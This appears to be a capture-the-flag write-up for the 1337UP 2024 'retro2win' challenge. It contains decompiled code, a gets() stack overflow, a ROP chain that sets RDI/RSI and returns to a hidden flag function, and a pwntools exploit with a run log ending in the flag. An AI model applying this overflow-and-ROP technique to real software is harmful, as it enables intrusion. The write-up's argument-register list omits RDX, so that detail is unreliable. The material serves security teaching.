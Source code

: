 # 1337UP 2024 - UAP

```bash
[*] '/home/ubuntu/pat/pwn-writeups/1337UP-2024/retro/retro2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

### Reverse Engineer Source

These were obtained with Ghidra after removing irrelevant bits and renaming/retyping.

```c
undefined8 main(void)
{
  int choice;
  
  do {
    while( true ) {
      while( true ) {
        show_main_menu();
        __isoc99_scanf(&DAT_00400c19,&choice);
        getchar();
        if (choice != 2) break;
        battle_dragon();
      }
      if (2 < choice) break;
      if (choice == 1) {
        explore_forest();
      }
      else {
LAB_0040093b:
        puts("Invalid choice! Please select a valid option.");
      }
    }
    if (choice == 3) {
      puts("Quitting game...");
      return 0;
    }
    if (choice != 0x539) goto LAB_0040093b;
    enter_cheatcode();        <-------------
  } while( true );
}
```

```c
void enter_cheatcode(void)

{
  char local_18 [16];
  
  puts("Enter your cheatcode:");
  gets(local_18);
  printf("Checking cheatcode: %s!\n",local_18);
  return;
}
```

```c
void cheat_mode(long param_1,long param_2)

{
  char *pcVar1;
  char local_58 [72];
  FILE *local_10;
  
  if ((param_1 == 0x2323232323232323) && (param_2 == 0x4242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    local_10 = fopen("flag.txt","r");
    if (local_10 == (FILE *)0x0) {
      puts("Error: Could not open flag.txt");
    }
    else {
      pcVar1 = fgets(local_58,0x40,local_10);
      if (pcVar1 != (char *)0x0) {
        printf("FLAG: %s\n",local_58);
      }
      fclose(local_10);
    }
  }
  else {
    puts("Unauthorized access detected! Returning to main menu...\n");
  }
  return;
}
```

### Where to begin

Once you reverse, the exploit is pretty obvious. We need to reach enter_cheatcode() which has a buffer overflow, and land into cheat_mode() and access the flag. 

### Setup

To enter_cheatcode(), we have to select option 0x539 or 1337. This isn't given to us in the menu but reversing shows us this hidden path. Since there's no stack canary, it makes sense that our exploit is to take advantage of stack buffer overflow by overwriting instruction pointer to cheat_mode(). Now, the difficult part is that cheat_mode() will only show the flag if it satisfies this condition on it's inputted parameters:

```c
if ((param_1 == 0x2323232323232323) && (param_2 == 0x4242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    local_10 = fopen("flag.txt","r");
    ...
}
else {
  puts("Unauthorized access detected! Returning to main menu...\n");
}
```

We need to somehow "call" with these params: cheat_mode(0x2323232323232323, 0x4242424242424242) 

Before understanding this exploit, you should have a good understanding of x86_64 calling conventions (which are different to that of x86 / i386). As a high level overview: whenever you call a function, your first 6 arguments are passed in the registers RDI, RSI, RCX, R8, R9, respectively. The remaining arguments are passed onto the stack. So, we want to setup RDI = 0x2323232323232323 and RSI = 0x4242424242424242 before we enter cheat_mode().

To do this, we'll utilize an ROP chain. This is useful when you can overwrite saved instruction pointer but cannot directly execute arbitrary code. Use whatever tool to extract gadgets from your binary (I use ROPgadget) and I reccommend saving it to a file so you can reference it without having to rerun the gadget finder. 

Our target gadgets would be a pop rdi and pop rsi. These are popular gadgets to use when you want to write over a register to a desired value. Thankfully, pop instructions are widely available.

```bash
$ ROPgadget --binary retro2win > gadgets
$ cat gadgets | rg -E 'pop rdi|pop rsi'
0x00000000004009b3 : pop rdi ; ret
0x00000000004009b1 : pop rsi ; pop r15 ; ret
```

Perfect! Let's get to our exploit.

### Exploit

Let's start with entering cheat mode.

```python
r = process('./retro2win')
r.sendlineafter(b'Select an option:', b'1337')
```

Now that we're in enter_cheatcode(), we need to send in the payload. First, we need to reach the saved instruction pointer. As you can see in the source code of enter_cheatcode(), the size of the buffer is 16 bytes. After the buffer is the saved base pointer, then the saved instruction pointer.
```python
pay = b'A' * 16   # fill in buffer
pay += b'B' * 8   # overwrite saved rbp
```

Now, let's setup our ROP chain in this order:
1. Set RDI = 0x2323232323232323
2. Set RSI = 0x4242424242424242
3. Return to cheat_mode()

Here's what that looks like:
```python
pop_rdi = 0x4009b3
pop_rsi_r15 = 0x4009b1
cheat_mode = 0x400736

pay = b'A' * 16   # fill in buffer
pay += b'B' * 8   # overwrite saved rbp
pay += p64(pop_rdi) + p64(0x2323232323232323)
pay += p64(pop_rsi_r15) + p64(0x4242424242424242) + p64(0xdeadbeef)
pay += p64(cheat_mode)

r.sendline(pay)

Stack
+---------------+       +---------------+ 
|  ........     | ----> |  AAAAAAAA     |
|---------------|       |---------------|
|  saved rbp    |       |  BBBBBBBB     |
|---------------|       |---------------|
|  saved rip    |       |  pop_rdi      |
|---------------|       |---------------|
|               |       |  0x2323.....  |
|---------------|       |---------------|
|               |       |  pop_rsi_r15  |
|---------------|       |---------------|
|               |       |  0x4242.....  |
|---------------|       |---------------|
|               |       |  dummy_value  |
|---------------|       |---------------|
|               |       |  cheat_mode   |
|               |       |               |
+---------------+       +---------------+
```

Note, the only available pop rsi gadget also pops r15 after it. This is harmless since the value in r15 isn't relevant in calling cheat_mode(). We'll just put any value in it.

When we exit enter_cheatcode() it "returns" to pop rdi then pop rsi then cheat_mode(). Now we can pass the if statement condition and access the flag :).

```bash
➜  retro git:(main) ✗ python solve.py
[*] '/home/ubuntu/pat/pwn-writeups/1337UP-2024/retro/retro2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Opening connection to retro2win.ctf.intigriti.io on port 1338: Done
[*] Switching to interactive mode

Checking cheatcode: AAAAAAAAAAAAAAAAAAAAAAAA\xb3        @!
CHEAT MODE ACTIVATED!
You now have access to secret developer tools...

FLAG: INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
```
